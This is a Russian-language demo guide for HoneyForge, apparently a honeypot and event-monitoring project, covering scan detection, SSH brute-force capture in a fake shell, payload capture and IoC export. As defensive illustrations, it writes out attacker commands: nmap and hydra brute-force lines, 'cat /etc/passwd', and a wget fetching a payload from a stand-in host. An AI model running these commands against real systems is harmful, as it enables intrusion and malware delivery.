

# HoneyForge — Сценарии демонстрации атак

> Живой сценарий защиты: **атака → событие в центре**.

Пять сценариев: четыре реализованы и выполняются командами `make`, пятый помечен как
нереализованный — он показывает, что команда честно обозначает границы.

## Быстрый запуск

```bash
make demo        # поднять стенд: центр + ловушки Low и Medium
make demo-tour   # обойти все сценарии по очереди с пояснениями
```

Отдельные команды под каждый сценарий — в [`README.md`](../README.md) и `make help`.

## Сценарий A. «Сканер → Low honeypot → событие в dashboard»

**Цель:** показать, что обычный порт-скан и попытка баннера фиксируются и появляются в UI за <5 сек.

**Команда:** `make demo-status` → `make demo-attack` → `make demo-status`.

**Шаги:**

1. Оператор логинится в dashboard, открывает «Лента событий».
2. С атакующей машины (`nmap -sV -p 22,80,3306 <honeypot_ip>`).
3. Low-ловушка отвечает баннерами (`SSH-2.0-OpenSSH_8.9`, `nginx/1.24.0`, `5.7.42-MySQL`).
4. Агент формирует события подключения, кладёт их в SQLite-буфер.
5. Через `masking.beacon_interval_seconds` ± `beacon_jitter_seconds` (в демо 5±2 сек) — батч уходит на центр; размер батча тоже варьируется, чтобы запросы не выглядели одинаковыми.
6. API пишет событие в `security_events`, триггер `NOTIFY`, WS-пуш → строка появляется в ленте.

**Что показываем судье:** фильтр по ловушке и по типу события, живая лента через WebSocket, `make demo-status` со статусами парка.

---

## Сценарий B. «SSH-брутфорс → Medium honeypot → fake shell → IoC-экспорт»

**Цель:** показать Medium-ловушку, логирование кред и команд, экспорт IoC.

**Команда:** `make demo-attack`, затем `make demo-export EVENT_TYPE=authentication_attempt`.

**Шаги:**

1. Атакующий запускает `hydra -l root -P rockyou.txt ssh://<honeypot_ip>`.
2. Medium-ловушка fake-SSH принимает креды из профиля (либо любые непустые, если профилем ничего не задано), логирует попытку с `username/password` и `accepted`.
3. После «успешного» логина атакующий попадает в fake-shell. Вводит:
   ```bash
   whoami
   cat /etc/passwd
   wget http://evil.example/payload.sh
   ```
4. Medium-эмулятор отвечает реалистично (`root`, фейковый `/etc/passwd` из fake-FS, `command not found` на то, чего нет), каждая команда логируется как отдельное событие.
5. Агент шлёт батч: попытка входа, команды, попытка загрузки — все с одним `attack_session_id`.
6. Оператор фильтрует ленту по сессии (`attack_session_id` в URL) и нажимает **Экспорт IoC → CSV**.
7. Center отдаёт `honeyforge-ioc-<UTC>.csv` (RFC 4180) с колонками `event_id, received_at, observed_at, trap_name, trap_id, attack_session_id, event_type, source_ip, source_port, target_service, target_port, username, accepted, command, cwd, http_method, http_path, query, database, succeeded, bytes_received, sha256, payload`. Пароли остаются внутри колонки `payload`; значения, начинающиеся с `=`, `+`, `-`, `@`, экранируются, чтобы Excel не выполнил команду атакующего.

**Что показываем судье:** реальные креды в UI, цепочку команд, скачанный CSV (тот же файл кладётся в `artifacts/ioc-export.csv`).

---

## Сценарий C. Захват payload'а из ловушки (реализовано)

**Цель:** показать, что ловушка не только логирует попытки, но и хранит присланные данные.

**Команда:** `make demo-payload`.

**Шаги:**

1. Сценарий отправляет 88 байт в Low-HTTP (`POST /upload`) и Low-UDP.
2. Агент фиксирует `payload_received`: вид (`http_body` / `udp`), `bytes_received`, `bytes_captured`, признак усечения и `sha256`.
3. Событие уходит в центр тем же beacon'ом, что и остальные.

**Что показываем судье:** хэш файла и то, что содержимое сохраняется ограниченным объёмом (`max_payload_bytes` в профиле).

---

## Сценарий D (Bonus, не реализован). «Honeytoken → детект срабатывания»

**Цель:** показать, что даже пассивный доступ к фейковому секрету детектируется.

> Статус: **не реализовано** (FR-A6). В коде нет ни модели honeytoken'ов, ни детектора
> срабатывания, ни события `honeytoken_triggered`. Сценарий описан как цель развития,
> а не как наблюдаемое поведение.

Планируемые шаги:

1. Оператор через UI кладёт honeytoken типа `aws_key` в fake-FS Medium-ловушки (`~/.aws/credentials`).
2. Детектор в агенте фиксирует обращение к файлу.
3. Событие уходит в центр и помечается как срабатывание приманки.
4. В интерфейсе оператор видит, какой токен и откуда «выстрелил».

---

## Сценарий E. Маскировка и разграничение доступа (реализовано)

**Команда:** `make demo-masking` (артефакт агента), `make demo-rbac` (роли),
`make demo-trap-host` (что видит атакующий с root на хосте ловушки).

**Что показываем судье:** в собранном артефакте агента нет ни слова про honeypot, имена
модулей нейтральны, комментарии и докстринги вырезаны; на хосте ловушки лежит один
файл `relay.pyz`; read-only оператор читает данные, но получает `403` на изменение.

---

## Тайминговая диаграмма (для презентации)



## Дополнительно: устойчивость к обрыву

```bash
make demo-smoke
```

Сценарий останавливает центр, вызывает атаку, убеждается, что очередь агента
выросла, поднимает центр обратно и проверяет, что именно эти UUID ушли в REST, а
затем прогоняет catch-up, видимость в интерфейсе и живую доставку по WebSocket.
Итог — JSON с полями `buffered_delivery`, `rest_catch_up`, `operator_ui`,
`websocket`.
